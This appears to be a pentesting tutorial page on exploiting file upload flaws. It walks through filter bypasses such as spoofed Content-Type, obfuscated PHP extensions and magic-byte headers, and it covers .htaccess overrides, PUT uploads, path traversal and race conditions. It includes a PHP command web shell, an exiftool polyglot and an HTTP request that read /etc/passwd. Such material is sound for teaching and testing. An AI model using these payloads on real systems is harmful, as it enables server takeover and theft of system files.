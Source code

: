 ```yaml
---
title: "File upload vulnerabilities"
weight: 9
description: "Understand how to exploit file upload functionalities through flawed validation, misconfigurations, race conditions, and other advanced techniques."
---
```


# File upload vulnerabilities

Improper handling of file uploads is a common security weakness in web applications. If not carefully validated, uploaded files can lead to remote code execution (RCE), cross-site scripting (XSS), and other types of attacks.

{{< hint style=warning >}}
By default, servers do not execute uploaded files unless they are explicitly configured to do so.
{{< /hint >}}

---

## Flawed File Validation

Poor validation allows attackers to bypass filters and upload dangerous files.

### Content-Type Bypass

Change `Content-Type` to an allow MIME type. (e.g. `image/jpeg`)

### Dangerous File Extensions

Some file extensions are known to trigger execution on the server. Even if certain types are blacklisted, you can still try alternate or obfuscated extensions:

```sh
# Common dangerous extensions
.php
.php3
.php4
.php5
.phtml
.phar

# Obfuscation examples
exploit.pHp
exploit.php.jpg
exploit.php.
exploit%2Ephp
exploit.asp;.jpg
exploit.asp%00.jpg
exploit.p.phphp
```

### File Content Validation

Even if the extension is valid, some servers validate the file content using magic numbers (specific byte patterns at the start of files).

| File     | Hex Signature                       | ISO 8859-1   |
| -------- | ----------------------------------- | ------------ |
| PNG      | 89 50 4E 47 0D 0A 1A 0A             | ‰PNG␍␊␚␊     |
| JPG/JPEG | FF D8 FF EE                         | ÿØÿî         |
| JPG/JPEG | FF D8 FF E0                         | ÿØÿà         |
| JPG/JPEG | FF D8 FF E0 00 10 4A 46 49 46 00 01 | ÿØÿà␀␐JFIF␀␁ |
| PDF      | 25 50 44 46 2D                      | %PDF-        |

You can still inject malicious code using a valid header:

```php
ÿØÿî
<?php echo system($_GET['cmd']); ?>
```

### Polyglot Files

Create a polyglot JPEG file containing malicious code within its metadata

```sh
exiftool -Comment="<?php echo 'START ' . file_get_contents('/etc/passwd') . ' END'; ?>" <YOUR-INPUT-IMAGE>.jpg -o polyglot.php
```

This works if you can upload a php extension file. This works why you have a real image file (that bypass restrictions) but when you open the image it's executed as php script.

---

## Overriding Server Configuration

Many servers allow configuration files in directories to override global settings. Web servers use them when present, but they're not accessible via HTTP requests.

If the file extension is blacklisted, you might trick the server into mapping a custom file extension to an executable MIME type.

* Apache servers ➜ `.htaccess`
* Example: `AddType application/x-httpd-php .<EXTENSION>`

---

## PUT Method Exploitation

Some servers support the HTTP `PUT` method for uploading files directly.

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/etc/passwd'); ?>
```

---

## Path Traversal + File Upload

If execution is blocked in the upload directory but the web server use the filename field in the request to determine the file’s name and location, you can try to escape using path traversal in the `filename` field:

```http
Content-Disposition: form-data; name="avatar"; filename="../exploit.php"
```

{{< hint style=tips >}}
If directory traversal is filtered, try encoding it: `filename="..%2fexploit.php"`.
{{< /hint >}}

---

## Upload Without RCE

Even without remote code execution, you can still cause harm:

- Upload `.html` or `.svg` files with embedded JavaScript ➜ **Stored XSS**
- Upload XML files like `.docx`, `.xlsx` ➜ Possible **XXE injection**

---

## Race Conditions in File Uploads

In some setups, files are uploaded and scanned (e.g., with antivirus) before being permanently stored. During this short window, the file may exist temporarily on disk and you could potentially execute it.

- Race conditions
- Difficult to detect

### Exploiting URL-Based Uploads

If a file is loaded into a temporary directory with a randomized name, it should be impossible for an attacker to exploit any race conditions.

* If the randomized directory name is generated using pseudo-random functions like PHP's `uniqid()`, it can potentially be brute-forced.
  * Try to extend the amount of time taken to process the file by uploading a larger file
* If it is processed in chunks, you can potentially take advantage of this by creating a malicious file with the payload at the start, followed by a large number of arbitrary padding bytes.